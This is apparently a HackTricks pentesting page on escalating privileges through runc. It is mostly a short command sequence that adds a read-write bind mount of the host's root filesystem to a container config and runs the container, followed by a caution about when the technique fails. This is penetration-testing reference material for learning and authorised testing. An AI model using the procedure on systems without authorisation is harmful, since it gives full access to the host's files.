 # RunC Privilege Escalation

{{#include ../../banners/hacktricks-training.md}}

## Basic information

If you want to learn more about **runc** check the following page:


{{#ref}}
../../network-services-pentesting/2375-pentesting-docker.md
{{#endref}}

## PE

If you find that `runc` is installed in the host you may be able to **run a container mounting the root / folder of the host**.

```bash
runc -help #Get help and see if runc is intalled
runc spec #This will create the config.json file in your current folder

Inside the "mounts" section of the create config.json add the following lines:
{
    "type": "bind",
    "source": "/",
    "destination": "/",
    "options": [
        "rbind",
        "rw",
        "rprivate"
    ]
},

#Once you have modified the config.json file, create the folder rootfs in the same directory
mkdir rootfs

# Finally, start the container
# The root folder is the one from the host
runc run demo
```

> [!CAUTION]
> This won't always work as the default operation of runc is to run as root, so running it as an unprivileged user simply cannot work (unless you have a rootless configuration). Making a rootless configuration the default isn't generally a good idea because there are quite a few restrictions inside rootless containers that don't apply outside rootless containers.

{{#include ../../banners/hacktricks-training.md}}


